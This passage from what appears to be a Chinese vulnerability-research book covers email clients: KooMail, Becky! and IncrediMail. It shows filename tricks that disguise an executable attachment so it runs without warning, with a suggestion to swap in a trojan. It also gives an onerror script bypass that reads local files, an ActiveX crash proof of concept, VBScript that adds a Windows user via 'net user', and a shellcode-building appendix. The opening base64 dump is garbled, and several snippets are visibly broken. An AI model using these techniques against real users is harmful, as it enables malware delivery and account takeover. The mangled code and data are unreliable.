V2luZG93RW56bYmzlZACSsAUpbGxU2WIILgA0AINIdERsZ0l0ZW1JUZXh0QQBNAINIdFhpbWVv
AABY0UVSMzluZGysAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAlbFgA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwADAAAKAAAgAUIAAABIAAGA
DgAAAGAAATAAAAAAAAAAAAAAAAAATAQAAHgAAIACAAAkkAAAgAAAAAAAAAAAAAAAAAAAAAAAA
AQBfAAAqAAAgAAAAAAAAAAAAAAAO8mAAAAwAAAgAAAAAAAAAAAAAAAAAAAAAOAUBAAA
2AAAAAAAAAAAAAAAAAAAAAAAAQAJBAAAGAAAAAAAAAAAAAAAAAAAAAAQAECAA+AAAAAAAAAA
AAAAAAAAAAAAAAAOAJBAAACAEAABBCAADoAgAAAAAAAAAAD4RAAAKEA AAAAAAAAAAAA
IEEAQoAAACoAwAAAAAACBGAAATAAAAAAAAAAAAAAAAAAAAEA//8AAAAAgAAAAMYI
yyjADAAAAAAAAAACiABoAAAAAFCxAoBuAgOAbwB3ACAACW0uIlE6NHgJTfZbAAAAJAAACLW1NP
AAAAAAAAABAAAAA48BUBkABABWABIA60MAAP//gAAAX8ZO9MIAIjroSBejR4E062WWAA
AAAAAAAAAAAlgUBdAFsAJAAMAOoDAAD//4EAAAAAAAAABAAAAAACQGEAaAZAAsA
//8AAP//ggDU8Rn0gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAACgAAAgAAAAOQAAAAAEBAAAAAAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AACAAACAAAAAgIAAgAAAAIAAgAGAgAAAyMDAAICAgAAAP8AAP8AAAD//wD/AAAA/wD/AP//
AAD///8AAAAAAAAAAAAAAAAAAIeAAAAAdwAAAAABwAAB4AAEQdwAAAAAABwAABEjkAdwAAAAAg
GRCZAAEQdwAAAAAIAAAABmQAJEjkQdwAAAACABwAAABGRCZAACAdwAAAAIAAAAABmQAJEA
IAdwAAAAAAAABGRCZEgAcdwAAAJAAAAAABmZCQjAkQdwAAAAAAAAd3dxEAGIgJkQcll
CljIAd3d4f3eAEJkQCHdwd3d3dAAd3d4CRCZERAId3d3eIgA
AAABmFCZEACHd3fHd3IAAAAABmRCZAAn3d3d3d4IAAAAABmQEOAId3d3d3elgAAAAABEA
AACHd3d3d3jIAAAAAAAAAAA////////IAAAAAAAAAAAAAAh3d3d3gAAAAAAAAAAAAAh3cA
AIIBAAAAAAAAAAAAAIQzCIIAAAAAAAAAAAAAAADswAAAAAAAAAAAAAAA7MAAAAAAAAAAAAAAAA
AD07u7u7MAAAAAAAAADMzMzMzAAAAAAAAAD////////AQH//CwA//10AH/43gA/+p1
AHyD8AA//zAAH8H4AA/JzAAH4/4AA+//zAEAAAAABAAAAQAAAEAAADAAH4AwA3/AMAAf4H
AAH/PwAB//8AAf//gAH//8AB///gAf///D///w///+AH////A/z/44f//ygA
AAQAAAAIAAAAEABAAAAAAAAwAAAAAAAAAAAAAAAAAAAAAAAAAAAwMDAAAAAgACAgIAA
AICAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAQATAAAAAAgAAAAAAAAAASADAAxxRHMA
EwAAIDEDeZAAgAAMRETMAAAIAAxxERMwAAAAAMQAzAAAJAAAQAAAAAAQAAAAAAAAABAAAAAA
AAAAAAAERCAAAAAADhWcAAhA8AAIQHAAQcAwAAIAEAAJ4AAAAAAAAAABAAAAA40AA
AP8ACAAD/AAEAz/wAA5/8AAHk/AACB/wAAAJABAAIAICAQAAEABADoAgAAAQnQEBAAAQAEAcgB
```

```text
AAAA...（多行以“A”重复组成的邮件内容）
----=_NextPart_001_124748697500
```

这个 eml 文件其实就是一个邮件文件。用 KooMail 打开这个 eml 文件后，我们发现此刻 KooMail 不再正确识别该邮件所带附件为一个可执行文件，因为 KooMail 不再以小窗口的图标来表示这个附件的文件格式，如图11.30所示。


图11.30 KooMail不能识别附件的格式


图11.31 附件名称变为了111.jpg

虽然说，此刻 KooMail 已经无法正确识别文件格式，但是，要是你在 KooMail 中看到一个附件的名称为“1.exe.”，你也会怀疑这个文件究竟是不是一个可执行文件，exe 这三个字母也太招摇了。为此，我们接下来需要伪装一下。

从 KooMail 的使用界面上来看，KooMail 对附件的文件名称显示是有问题的，过长的附件名将会被隔行显示。我们此刻构建一个附件的文件名为“1.jpg（这里全是空格）.exe.”。如果我们中间的空格足够多，KooMail 就不会显示出完整的文件名称，那么此刻附件会看起来像一个 jpg 图片的名称。

再次转换这个新的文件名称为 base64 编码，即：MS5qcGcgICAgICAg...C5lcGUu。然后修改邮件，修改方式是用记事本程序打开 KooMailbypassexec.eml 文件，找到“name=”和“filename=”两个地方，将它们后面双引号中的内容修改为“=?GBK?B?MS5qcGcgICAgICAg...C5lcGUu=?=”，然后保存 KooMailbypassexec.eml 文件。

再次利用 KooMail 打开 KooMailbypassexec.eml 邮件，如图11.31所示。从图11.31中我们看到，此刻附件名显示的是“111.jpg”，而不再是带有 exe 的文件名称，我们成功地实现了对附件文件名称的伪装。这又是一个好消息，KooMail 似乎非常乐意让我们绕过它的安全限制机制。

现在，让我们试图双击打开这个看起来像是图片的附件文件吧。你会发现，KooMail 此刻不会再给出图11.29中显示的那个警告对话框，而是直接运行了附件文件！如图11.32所示（我们所演示的附件是 Windows 按钮突破专家，你可以换成木马文件试试，效果一样的）：

你一定会惊讶，不是说 KooMail 已经不能正确识别我们伪造的附件文件格式了吗？怎么又会执行我们的附件文件呢？原因就在 Windows 自己的机制上。我们上面制造的那个“1.exe.”附件名称，这种文件名其实会被 Windows 转换为“1.exe”，小数点或者文件名最后的空格字符都会被过滤。于是，我们伪装过的文件格式被 Windows 系统正确解析为了可执行文件，我们的附件成功实现绕过 KooMail 的安全机制，获得了直接运行的权利。


图11.32 附件被成功执行


图11.33 Becky! Internet Mail 的使用界面

### 11.4.3 实战Becky! Internet Mail 2.53附件跨域脚本执行漏洞

上面的案例中，我们学习到了如何利用构造特殊的文件名来绕过邮件客户端软件对附件文件的安全限制。具体地讲，KooMail 采用的是对邮件附件文件格式的判断，一旦发现附件文件格式属于可执行文件格式，KooMail 将会在用户试图打开附件时给出安全警告提示。其实，邮件客户端软件还往往采用另外一种方式来阻止用户运行不安全的附件文件，这就是文件格式过滤。

邮件客户端软件可以将常见的可执行文件格式的文件类型名称加入到过滤列表当中。一旦发现邮件中的附件文件类型属于过滤列表当中的文件类型，软件将立即阻止用户运行邮件附件。

这种过滤列表式的安全机制虽然在一定程度上可以让用户自定义被过滤附件文件类型，扩展安全机制保护范围，但是也会发生过滤列表中文件类型不全面，而将一些不安全附件文件类型遗漏。下面的案例将会为大家说明这种情况。

Becky! Internet Mail 是一个来自于日本的邮件客户端软件，该软件一向以简单方便、易操作的优点广泛被用户使用。我们这里进行漏洞挖掘的版本为 2.53。安装完 Becky! Internet Mail 后，我们看一下它的使用界面，十分简单，如图11.33所示。

这其实也符合它的开发设计模式，因为在随软件一起安装的软件帮助文档中，作者说：“We never forget the most important virtue that is ‘ease of use’. From its simple and clean (somewhat bland for some) user interface...”，翻译过来也就是说这样简单明了的界面易于用户的使用。


利用本地搭建的邮件服务系统，我们发送了一封测试邮件，然后利用 Becky! Internet Mail 进行接收，发现此刻 Becky! Internet Mail 会依据邮件中是否存在 HTML 脚本代码，来向用户提供两种邮件内容显示模式，即文本模式（text/plain）和 HTML 模式（text/html），如图11.34所示。

这种模式的好处是由于采用默认的文本显示模式，防止了恶意脚本邮件对用户的直接攻击。当然，在用户主动切换邮件显示模式为 HTML 模式时，我们测试发现此刻也不能发生跨域的脚本执行漏洞。既然这样，我们就暂时放弃了对这个地方的深入研究。


当我们打开 Becky! Internet Mail 的“工具”菜单中的“全局设置”时，我们发现漏洞的机会来了，如图11.35所示。

请大家注意看图11.35中间，那里有一个“警告”设置。在这个设置中，我们看到两个敏感的选项：

- “打开这些类型的附件时提示”
- “不允许执行这些类型的文件”

这两个选项是 Becky! Internet Mail 用来阻止邮件中附件文件中可能存在的病毒木马程序而设计的。

默认情况下，Becky! Internet Mail 检测到用户试图打开的邮件附件文件类型属于 *.exe;*.com;*.bat;*.cmd;*.pif;*.do;*.xl;*.reg;*.lnk;*.vb;*.pl;*.rb;*.scr;*.chm;*.ws;*.js;*.php;*.zip;*.shs 这些类型时，Becky! Internet Mail 将会给用户提出警告提示。

同时，在面对 *.exe;*.com;*.bat;*.cmd;*.pif;*.lnk;*.scr;*.shs 这些类型的附件文件时，Becky! Internet Mail 将会阻止用户执行这些类型的附件文件，如图11.36所示。

从安全角度讲，这其实是一种非常不严谨的做法。Becky! Internet Mail 中设定的这些文件类型是我们熟知的一些可能被木马病毒利用的文件类型，但是我们不能排除有其它格式的文件类型同样可以被木马病毒程序所利用。


图11.37 Becky! Internet Mail阻止附件中的脚本代码执行

……中的 asp 文件，即使你阻止了用户向服务器上传 asp 类型的文件来防止 WebShell 的安装，但是如果用户上传 cer 类型的文件，其实最后也能达到同样的目的。不信，我们来看一看如何突破这第一层的安全限制，后面我们还会面对新的安全限制。

既然是想要达到攻击用户的目的，那么我们利用脚本代码同样可以实现这个目的。这就需要我们在制造攻击邮件时，对附件类型不要选择为那些敏感的文件类型，尤其是被 Becky! Internet Mail 所监视的文件类型。为此，我们选择了上传一个 html 文件作为邮件附件，并且在其中加入了最为传统的脚本代码：`<script>alert()</script>`，发送这封测试邮件，然后利用 Becky! Internet Mail 接收该邮件，模拟用户打开附件中的 html 文件，如图11.37所示。


图11.38 浏览器打开了附件文件

什么？Becky! Internet Mail 竟然给出了一个警告提示，说被打开的 HTML 附件文件存在可能的恶意脚本代码。

奇怪了，前面在 Becky! Internet Mail 的全局设置中，我们并没有看到 Becky! Internet Mail 设置 HTML 文件类型为需要给用户发出警告的附件类型，怎么还是出现了安全警告呢？先不管它，让我们点击“是”按钮看看效果，如图11.38所示。

一片空白，什么事情也没有发生。这太令人困惑了，即使在警告给出之后，我们自己选择愿意打开 HTML 附件，我们也没有看到什么脚本执行的结果。要解释这个原因，让我们看一看此刻的网页源代码吧。


图11.39 成功绕过Becky! Internet Mail对附件的安全限制

```html
<!-- ... alet() </scr... >
```

原来 Becky! Internet Mail 发现 HTML 附件中存在的脚本标签，将其做了替换，难怪使得我们没有看到任何对话框弹出。

毫无疑问，Becky! Internet Mail 对存在脚本代码的 HTML 附件也会做安全限制，给用户警告提示，以及过滤替换附件中的脚本标签。那么，我们现在打算绕过这个限制，就首先需要去掉脚本标签 script 这个敏感字符。

还好，我们知道 HTML 代码中有很多可以让我们利用执行脚本的方法，事件消息法就是一个不错的选择，见代码：

```html
</img>
```

当 img 标签的图片来源出错时，onerror 指定的代码就会被执行。借助这种机制，我们的脚本代码依旧可以得到执行的机会。再次利用其它邮件系统制造一封新的邮件，将上面的代码保存为 html 文件，然后作为附件一起发送。用 Becky! Internet Mail 接收后，模拟用户……图11.40 Becky! Internet Mail 附件脚本跨域执行后的效果

打开附件中的 HTML 文件，这一次我们发现 Becky! Internet Mail 竟然一点没有给出警告提示，而是直接调用浏览器打开了我们的 HTML 附件文件，如图 11.39 所示。

看起来我们已经成功地绕过了 Becky! Internet Mail 对附件类型以及脚本代码的安全限制，我们可以实现执行任意脚本的目的了。不过，这也没有什么意义，因为如果我们没有本地域的权限，我们始终不能做到利用脚本来得到更大的控制权限。

请大家注意看图 11.39 最上方的显示内容：“D:/Documents%20and%20Settings/awy/Local%20Settings/Temp/B2Temp/Attach/111.htm”，这代表着此刻，Becky! Internet Mail 将我们的 HTML 附件作为一个本地网页打开了。这就是说此刻 111.htm 文件中的代码是具有本地权限的，我们做了一个测试，如图 11.40 所示。

看到了吗？图中显示的是我们本地计算机上 boot.ini 文件的内容！这就证明我们可以借助 HTML 附件来实现跨域的脚本攻击，而这一切 Becky! Internet Mail 不会给出任何安全警告提示！

## 11.5 其它类型漏洞的挖掘

#### 11.5.1 不能忽视的 ActiveX 控件

通过上面的学习我们了解到，针对邮件客户端软件的漏洞挖掘，我们主要涉及三个方面的漏洞挖掘：一个是修改一封邮件中的格式内容，从而来测试邮件客户端软件在处理包含有特殊内容的邮件时，会不会发生诸如缓冲区溢出之类的安全漏洞。另一个方面是构造包含有网页脚本代码的邮件，来测试邮件客户端软件在处理这类邮件时会不会发生脚本执行漏洞，甚至是跨域脚本执行漏洞。还有一个方面，那就是针对邮件附件的安全机制，利用伪装邮件附件后缀名的方式来测试邮件客户端软件是否存在附件安全机制绕过漏洞。

以上三个方面是研究邮件客户端软件安全漏洞的重点方向，因为它们都涉及到邮件客户端软件的基本功能，可以说是专门针对邮件客户端软件基本功能的安全测试。

但是，邮件客户端软件的开发者为了扩展自己软件的功能，为了给用户带来更加丰富的功能，也往往会采用一些额外的技术来融入到自己的软件当中。这其中，ActiveX 控件技术首当其冲，而使得用户使用起来更加方便。不过，安全问题也会随之出现；为此，在对邮件客户端软件的漏洞挖掘过程中，我们还必须注意针对邮件客户端软件的 ActiveX 控件的漏洞挖掘。下面的案例将为读者演示如何针对邮件客户端软件的 ActiveX 控件进行漏洞挖掘。

### 11.5.2 令人抓狂的 IncrediMail ImShExtU.dll 控件远程 DOS 漏洞

在前面，我们已经为读者演示了如何挖掘出 IncrediMail 软件的跨域脚本执行漏洞。现在，让我们再看看 IncrediMail 的另外一个有意思的漏洞。这个漏洞出现在 IncrediMail 向系统中注册的控件文件 ImShExtU.dll 上。这个文件是 IncrediMail 的系统外壳扩展文件，可理解为一个为用户更快捷使用 IncrediMail 的控件文件。利用 COMRaider 打开这个控件文件，如图 11.41 所示。

从图 11.41 中可以看到，ImShExtU.dll 这个控件文件向系统注册了两个外部接口，其中的一个外部接口名称为 “DoWebMenuAction”，这个外部接口的原型是这样的：

```vb
Sub DoWebMenuAction(
    ByVal bsPath As String
)
```

该外部接口的参数只有一个，并且是一个字符串变量。一般来说，看到这样的变量我们就想研究它能不能发生缓冲区溢出漏洞。于是，我们写了一段网页脚本代码来测试这个外部接口。代码如下：

```html
<object classid='clsid:F83B4111-38B6-11D5-8725-0050DA2761C4' name='evil'></object>
<script>
  var a = Array(300)
  evil.DoWebMenuAction(a);
</script>
```

上面这段网页脚本代码非常简单，就是向 DoWebMenuAction 外部接口传递了一个 300 字节长度的变量 a。为什么这样做？这是由于 DoWebMenuAction 外部接口的作用其实是将图片或者动画格式的文件导入到 IncrediMail 程序中，作为邮件的背景画面使用。这样一来，该外部接口的参数就是一个文件名，Windows 系统下完整文件名的长度是被限制在 260 字节内的。据此，如果我们的判断正确，300 字节长度的变量 a 已经超过 260 字节的长度限制，缓冲区溢出漏洞应该可以被触发到。

现在，保存上面这段代码为 testax.htm，放到服务器上（本地搭建的 IIS），用 Internet Explorer 浏览器访问这个网页，你会发现 Internet Explorer 浏览器瞬间被关闭了！难道我们真的发现了一个缓冲区溢出漏洞吗？还不急于下结论，用 OllyICE 挂接 Internet Explorer 进程，再次访问 testax.htm 文件，我们竟然发现 OllyICE 中断不住 Internet Explorer 进程，Internet Explorer 进程直接运行结束了！

看起来，问题不像我们想象的那样简单。这一次 Internet Explorer 进程崩溃的表现不像是溢出漏洞，慢慢来下断点跟踪调试一下究竟什么原因造成了 Internet Explorer 发生自动关闭，如图 11.42 所示。

此时，CPU 即将执行的语句 `mov ecx, dword ptr [ebp+104]`，这个地方的 104 正好对应的是 260 的十六进制表达式。也就是说，该函数的参数取自位置 260 字节大小的栈，然而，这个地方却被我们过长的变量 a 所覆盖，因为 a 的长度是 300 字节。于是，ecx 被赋值为 a 变量的内容即 2c2c2c2c。紧接着，正是由于这个 ecx 的值，导致程序被引入到下面这段异常处理代码中，如图 11.43 所示。

图11.42 OllyICE 监视到浏览器发生崩溃的原因

图11.43 异常处理代码中关闭了浏览器进程

大家看图 11.43 中最后的两个函数，GetCurrentProcess 和 TerminateProcess。多么熟悉的函数，程序在获得当前进程的句柄后，传递给 TerminateProcess 函数，这个函数负责直接结束当前进程。于是，我们的 Internet Explorer 进程被结束了，所以，OllyICE 没有截获到溢出的那种错误。

虽然说这个漏洞没有造成什么能够被利用成制作网页木马的溢出漏洞；但是，如果你知道因为自己安装了 IncrediMail，从而导致自己的浏览器在上网的时候没事就被自动关闭，你会有多恼火。

还有一种利用方法，那就是将该漏洞与前面 IncrediMail 的跨域脚本执行漏洞相结合，在邮件中加入该漏洞的利用代码，一旦用户利用 IncrediMail 接收到该邮件后，其中的脚本代码就会因为 IncrediMail 的跨域脚本执行漏洞而被执行，从而触发了 ImShExtU.dll 控件的这个崩溃漏洞，结果你会发现 IncrediMail 软件在打开邮件的一瞬间被自动关闭了。如果你不知道这是一个漏洞，而是发现自己使用的 IncrediMail 在打开邮件的时候不断地被自动关闭，无法正常接收邮件，我想你一定会抓狂起来。

### 思考题

- 1. 针对邮件客户端软件，我们应当从哪里进行安全测试？
- 2. 在文章中我们介绍了邮件客户端软件的跨域脚本执行漏洞，演示中给出的例子是一个关于跨域读取用户本地系统文件内容的脚本代码，你能够制作出一个跨域添加用户的脚本代码吗？并将其使用在 IncrediMail 软件的测试当中。

### 答案

- 1. 邮件客户端软件主要是以处理电子邮件为主，所以我们需要从电子邮件入手来进行安全测试，主要是修改电子邮件的内容，一方面是测试溢出类型的漏洞，一方面是测试跨域类型的安全漏洞。
- 2. 其实跨域添加用户的脚本代码我们在本书的第 10 章中，介绍关于 360 安全浏览器的跨域脚本执行漏洞时就已经提到过。那段核心的脚本代码如下：

```html
<script language="vbscript">
set wsh=createobject("wscript.shell")
a=wsh.run("cmd.exe /c net user aiwuyan 123456 /add",0)
</script>
```

只要将这段脚本代码放入到邮件内容当中就可以成功触发 IncrediMail 软件的跨域脚本执行漏洞。

## 附录：利用 Microsoft Visual C++ 6.0 制造 ShellCode

本书第 2 章中，在成功测试 GoodFTP Server 程序存在缓冲区溢出漏洞后，我们准备利用一段 ShellCode 代码来实施对 GoodFTP Server 程序的缓冲区溢出攻击。在那里，我们利用的 ShellCode 代码是一段能够弹出一个带有“错误”字眼的对话框，这段 ShellCode 代码我们当时是这样表示的：

图 1 新建一个“C++ Source File”文件

```c
char sc[] =
"\x33\xDB"      // XOR EBX, EBX，将 EBX 寄存器清零
"\x53"          // PUSH EBX
"\x53"          // PUSH EBX
"\x53"          // PUSH EBX
"\x53"          // PUSH EBX，以上四条指令用来向 MessageBoxA 函数传递参数
"\xB8\xEA\x04\xD0\x77"  // MOV EAX, user32.MessageBoxA
// 将 MessageBoxA 函数的地址放入到 EAX 寄存器
"\xFF\xD0"      // CALL EAX，调用 MessageBoxA 函数弹出一个对话框
```

虽然在这里，我们加上了大量的注释语句，可是，你也许很疑惑，这些看起来类似数字字母混合的东西怎么就能够最终让计算机弹出一个带有“错误”字眼的对话框？

在解释这一切原理之前，首先，我们必须明白任何计算机指令对于计算机来说就是 0 和 1 的组合。既然这样，利用二进制数组就可以代表一条计算机指令；由此，将二进制数组转换成为十六进制数组也同样可以代表一条计算机指令。这样做的好处只是为了让我们能够很好地阅读而已，不然，看着那一堆 0 和 1 的组合，我们也会马上头晕眼花。

所以，上面那些数字字母混合的东西就代表着一条条计算机指令，也就是汇编指令，即注释符号 “//” 后的那些汇编指令。这样一来，计算机在处理这些汇编指令的时候，肯定会按照指令要求来完成一定的工作了。

可是，为什么这些汇编指令能够实现让计算机弹出一个带有“错误”字眼的对话框，它们又是从哪里获得呢？这个问题的答案其实就是一句话：“如何编写出一个 ShellCode？”。这里，我们利用 Microsoft Visual C++ 6.0 程序，来为读者展示如何自己编写出一段 ShellCode 代码。在这个过程中，你也将会真正理解 ShellCode 的来龙去脉，最终学会开发自己专用的 ShellCode 代码。

直接点击“确定”按钮，出现代码输入窗口，如图 2 所示。我们既然想要实现让计算机弹出一个带有“错误”字眼的对话框，那么，我们就需要调用对话框生成函数 MessageBoxA，VC 代码如下所示：

图2 代码输入窗口

```c
#include <windows.h>

void main()
{
    MessageBoxA(NULL, NULL, NULL, 0);
}
```

编译这段代码，效果如图 3 所示。

图3 代码编译效果

从图 3 中可以看到，编译出来的效果和本书第 2 章中图 2.35 中显示的那个“错误”对话框一模一样。我们第一步的工作就是需要将这个 VC 代码转换成汇编指令。

在 Microsoft Visual C++ 6.0 程序的代码输入窗口中，用鼠标单击 MessageBoxA 函数前面的位置，然后，按下键盘上的 F9 功能键。此刻，在 MessageBoxA 函数前面会出现一个红色的圆点，这代表着我们在代码这里下了一个断点，如图 4 所示。

图4 在 MessageBoxA 函数前下断点

下好断点后，按下键盘上的 F5 功能键，Microsoft Visual C++ 6.0 程序将开始调试当前编写的代码，如图 5 所示。此刻，按下键盘上的 Alt+8 组合键，你将会发现 Microsoft Visual C++ 6.0 程序将我们编写的 VC 代码直接转换为了汇编指令！如图 6 所示。

图5 VC 进入调试状态

从图 6 中我们看出，原来一个 VC 代码中简单的 MessageBoxA 函数调用只需要一行代码，而转换为汇编指令后却需要很多行代码，而这其中最为重要的代码是以下几行：

```asm
0040102A    push    0
0040102C    push    0
0040102E    push    0
00401030    push    0
00401032    call    dword ptr [__imp__MessageBoxA@16 (0042a2ac)]
```

为什么说这几行代码是最关键的？因为在前面，我们在 VC 代码中调用 MessageBoxA 函数时，该函数需要传递四个参数，而传递参数这个动作在汇编指令中就是利用 push 这个指令来完成的。上面汇编指令中我们刚好看到有四个 push 指令，所以证明这一段汇编指令是最为关键的汇编指令。

按照道理来说，既然我们得到了汇编指令，就可以利用这几句汇编指令来实现弹出“错误”对话框的功能，真的可以吗？

现在，重新建立一个“C++ Source File”文件，取名为“asemcode”，在其中输入以下代码。

图6 VC 代码被转换成为了汇编指令

```c
#include <windows.h>

void main()
{
    __asm // 这是 VC 调用汇编指令的标识符，通过它我们就可以实现在 VC 中调用汇编指令代码了
    {
        push 0
        push 0
        push 0
        push 0
        call dword ptr [__imp__MessageBoxA@16 (0042a2ac)]
    }
}
```

图7 VC 程序出现了编译错误提示

这里，我们将刚才获得的关键汇编指令放入了 VC 代码中，按照道理，我们现在编译这段代码就应该可以看到系统弹出一个带有“错误”字眼的对话框。按下键盘上的 F7 功能键，编译当前代码，你会发现 Microsoft Visual C++ 6.0 程序提示代码出现了错误，如图 7 所示。

其实，Microsoft Visual C++ 6.0 程序发生错误的原因就在最后一行汇编指令 `call dword ptr [__imp__MessageBoxA@16 (0042a2ac)]`，这是一个间接内存调用指令，也就是说这条指令实际调用的指令地址应该是保存在 `0042a2ac` 地址中。所以，我们必须将真正的地址取出来，再写入到汇编指令中才对（这个地址其实就是 MessageBoxA 函数在操作系统中的地址）。

那么，如何获得保存在 `0042a2ac` 地址中的真实地址呢？关闭当前的 VC 程序，重新用 Microsoft Visual C++ 6.0 程序打开刚才的 “shellcode” 工程，还是在 MessageBoxA 函数一行下一个断点，然后按下 F5 功能键进入到调试状态。

在 VC 程序的调试状态下会有一个 “Memory” 窗口，意思是查看内存中数据的窗口。如果你发现那里没有这个窗口，那么按下键盘上的 Alt+6 组合键就会出现该窗口，如图 8 所示。

在图 8 的“地址”一栏中输入 `0042a2ac`，回车，如图 9 所示。

从图 9 中看出内存 `0042a2ac` 中保存的真实地址为 “77 D5 04 EA”（记住 Windows 系统下内存中的数据是倒着保存的），这不正好就是在本章开篇中提到的 MessageBoxA 函数的地址吗？没想到利用 VC 程序我们就可以直接获得函数的真实地址。

记下这个地址，现在可以关闭 “shellcode” 工程，打开 “assemcode” 工程，修改代码如下所示：

```c
#include <windows.h>
void main()
{
    LoadLibrary("user32.dll");
    __asm
    {
        push 0
        push 0
        push 0
        push 0
        mov eax, 0x77D504EA
        call eax
    }
}
```

### ShellCode 二进制提取与调用

现在，编译这段代码，你会发现它的效果与图3的效果一模一样，如图10所示。

现在汇编指令已经完整了，我们需要将这些汇编指令转换成为二进制数，因为 ShellCode 代码是由二进制数组成的，而不是汇编指令。

在“assemcode 工程”的“call eax”指令一行按 F9 功能键下断点，然后按下 F5 功能键进入调试状态，并同时打开汇编指令显示（按下 Alt+8 组合键），如图11所示。


此刻，从图11中我们看到第一条 push 指令所在的内存地址为“0040D46C”。这样一来，我们就可以利用 Microsoft Visual C++ 6.0 程序提供的查看内存数据的“Memory”窗口，获取这些汇编指令对应的二进制数，因为汇编指令在内存中就表现为二进制数。


在“Memory”窗口中输入“0040D46C”回车，如图12所示。现在，将地址 0040D46C 开始到 0040D47B 结束的所有二进制数整理出来，如下所示。


```text
6A 00 6A 00 6A 00 6A 00 B8 EA 04 D5 77 FF D0
```

这段代码看起来是不是非常类似我们在本章开始看到的那段 ShellCode 代码？重新将 assemcode 的代码做一个修改，如下所示。

```cpp
#include <windows.h>

void main()
{
    LoadLibrary("user32.dll");
    char myshellcode[]="\x6A\x00\x6A\x00\x6A\x00\x6A\x00\xB8\xEA\x04\xD5\x77\xFF\xD0"; // 我们整理出来的 ShellCode
    void *p = &myshellcode;
    __asm
    {
        ...
    }
    call p; // 调用我们的 ShellCode
}
```

重新编译这段代码，效果如图13所示。

毫无疑问，我们的 ShellCode 终于弹出了一个错误对话框，我们的目标完成了！经过一番努力，我们终于学会了如何利用 Microsoft Visual C++ 6.0 程序来开发 ShellCode。虽然看起来有些复杂，其实细细算来就三个步骤：

- 第一，首先利用 VC 代码写出实现自己想要功能的代码；
- 第二，利用 Microsoft Visual C++ 6.0 程序自带的调试功能，获取并整理 VC 代码转换出的汇编指令；
- 第三，将汇编指令重新编译，再次利用 Microsoft Visual C++ 6.0 程序的调试功能查看内存数据，获取到最终的 ShellCode 代码。